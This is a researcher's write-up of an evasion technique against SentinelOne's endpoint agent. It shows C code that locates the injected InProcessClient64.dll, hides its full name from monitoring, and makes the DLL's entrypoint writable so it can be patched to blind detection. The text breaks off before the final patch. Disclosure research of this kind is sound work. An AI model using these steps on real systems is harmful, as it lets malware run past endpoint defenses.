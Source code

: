 ```yaml
---
layout: default
---
```

<br/>
# SentinelOne Agent Bypass
<hr/>

## What is this?
This is a write-up describing the discovery and exploitation of a vulnerability in Sentinel Agent ("S1"), the in-process monitoring component of the SentinelOne platform.

<br/>
<hr/>

## What is SentinelOne?
SentinelOne is a cybersecurity platform known for its robust Endpoint Detection and Response (EDR) capabilities. It utilizes AI and machine learning to deliver real-time threat detection, automated response, and full visibility into endpoint activities.

SentinelOne is widely adopted across various industries due to its effectiveness in handling sophisticated attacks, ease of deployment, and comprehensive threat intelligence capabilities. Its ability to autonomously detect and respond to threats without manual intervention sets it apart as a leader in the EDR space.

*(ChatGPT)*

<br/>
<hr/>

## What is the vulnerability?
Successful exploitation of the vulnerability blinds the in-process detection, meaning you can run even the most toxic shellcode (e.g., meterpreter) without it getting detected. You can also remotely blind processes and inject into them, also without detection.

<br/>
<hr/>

## What is "in-process detection"?
When the system boots, S1's kernel driver (`SentinelMonitor.sys`) is loaded. This driver calls the `PsSetCreateProcessNotifyRoutine()` Windows API to tell Windows that it wants to be notified every time a new process is created.

Now, whenever a new process is created, the driver is notified, and it has the opportunity to perform some tasks as part of the process creation. One of these tasks is injecting a DLL into the newly created process. This DLL is named `InProcessClient64.dll` on x64 systems and its purpose is to monitor the process for threats. It performs numerous timer- or event-driven tasks such as scanning memory for threats and watching for suspicious memory operations and network connections.

If we use WinDbg to debug notepad.exe, we can see this DLL loaded alongside all the other modules in the process:
```
0:000> lm
start             end                 module name
00007ff6`2e580000 00007ff6`2e5da000   notepad    (deferred)             
00007ffd`f8c10000 00007ffd`f8ea2000   COMCTL32   (deferred)             
00007ffe`14a80000 00007ffe`14e96000   InProcessClient64   (deferred)
00007ffe`151e0000 00007ffe`15208000   bcrypt     (deferred)             
00007ffe`15380000 00007ffe`15491000   ucrtbase   (deferred)             
00007ffe`154a0000 00007ffe`1585a000   KERNELBASE   (deferred)             
...snip...
```

We can get some information about the DLL:
```
0:000> lmDvm InProcessClient64
start             end                 module name
00007ffe`14a80000 00007ffe`14e96000   InProcessClient64   (deferred)             
    Image path: C:\Program Files\SentinelOne\Sentinel Agent 24.1.4.257\InProcessClient64.dll
    Image name: InProcessClient64.dll
    Timestamp:        Thu Sep 26 15:37:12 2024 (66F5B7E8)
    CheckSum:         0040B65F
    ImageSize:        00416000
    File version:     24.1.4.257
    Product version:  24.1.4.257
    File type:        2.0 Dll
    Information from resource tables:
        CompanyName:      SentinelOne, Inc.
        ProductName:      Sentinel Agent
        InternalName:     WinHostDll
        OriginalFilename: WinHostDll.dll
        ProductVersion:   24.1.4.257
        FileVersion:      24.1.4.257
        FileDescription:  WinAgentHostDll
        LegalCopyright:   SentinelOne, Inc.
```

<br/>
<hr/>

## But what exactly is InProcessClient64.dll doing?
I don't really know. A lot. Fortunately, developing this exploit did not require a deep understanding of how the DLL works or how it fits into the complex S1 platform, just that certain functions in the DLL are called at certain times. This was enough to give me an idea on how to approach exploiting it.

<br/>
<hr/>

## What was the idea?
The idea was that if I could write to the DLL's memory, maybe I could influence its behavior (i.e. disable it).

To be able to write to memory, the first task was to locate the base address of `InProcessClient64.dll`. Due to ASLR, this address will be different on every system, and after every reboot. I created a C++ console app in Visual Studio whose sole purpose (for now) was to attack the `InProcessClient64.dll` that gets injected into it when the process is created.

Using a combination of Windows APIs including `OpenProcess()`, `EnumProcessModules()`, `GetModuleInformation()`, and `GetModuleFileNameExA()`, it is possible to loop through the loaded modules in your process to look for one in particular.

Here is the code that loops through the loaded modules and looks for the one we're interested in. Note that I am not using the DLL's full name, which is probably not necessary, but is less likely to be seen as malicious if S1 happens to be watching for something like this.

```c
    HMODULE hModules[1024];
    DWORD cbNeeded = 0;
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, GetCurrentProcessId());

    if (EnumProcessModules(hProcess, hModules, sizeof(hModules), &cbNeeded))
    {
        for (DWORD i = 0; i < (cbNeeded / sizeof(HMODULE)); ++i)
        {
            MODULEINFO modInfo = { 0 };
            if (GetModuleInformation(hProcess, hModules[i], &modInfo, sizeof(MODULEINFO)))
            {
                CHAR modName[MAX_PATH] = { 0 };
                if (GetModuleFileNameExA(hProcess, hModules[i], modName, sizeof(modName) / sizeof(CHAR)))
                {
                    if (std::string(modName).find("cessClient6") != std::string::npos)
                    {
                        // we have found the InProcessClient64.dll module, so now we can grab its base address

                        QWORD base = (QWORD)modInfo.lpBaseOfDll;
                    }
                }
            }
        }
    }
```

Now that I had the base address of the DLL, I could try actually writing to its memory. But where? As the write target, I chose `DllMain()`, the default entrypoint for DLLs. To find the location of this function, I used IDA Pro, which showed its offset as `0x32b0`, which means its virtual address is `0x32b0` plus the base address I just obtained. (For some reason IDA Pro is calling this function `DllEntryPoint()`. I don't know what that's about.)

![DllMain](/images/dllmain.png)

But first things first - before I could write memory, I needed to set the memory protection of this address to actually allow writing, since this region is marked as `PAGE_EXECUTE_READ` as can be seen in WinDbg:

![VirtualProtect](/images/vprotect2.png)

To modify memory protection, I used the `VirtualProtect()` Windows API. This function accepts the address whose protection you want to change, how many bytes, the new protection constant, and a place to store the old protection constant which is useful if you want to set it back to its original value when you're done, which I did.

So I modified the PoC to include the following code:

```c
    QWORD base = (QWORD)modInfo.lpBaseOfDll;  // base address of InProcessClient64.dll
    QWORD entrypoint = base + 0x32b0;         // virtual address of the entrypoint (base plus offset)
    DWORD oldProtect = 0;                     // stack variable to receive the previous protection

    printf("Write target: 0x%llx\n", (QWORD)entrypoint);

    if (VirtualProtect((LPVOID)entrypoint, 1, PAGE_READWRITE, &oldProtect))
    {
        printf("Success!\n");
        VirtualProtect((LPVOID)entrypoint, 1, oldProtect, &oldProtect);
    }
```

When I ran the updated PoC in WinDbg, I was able to verify that the protection for the target address had been changed to `PAGE_READWRITE`:

![VirtualProtect](/images/vprotect.png)

With the protection changed, I should now be able to write artbirary values to the address of the entrypoint. When I did this originally, I fully expected S1 to intervene and kill my process. I don't have a guess as to why S1 allows you to do this.

<br/>
<hr/>

## So what now?
More stuff.
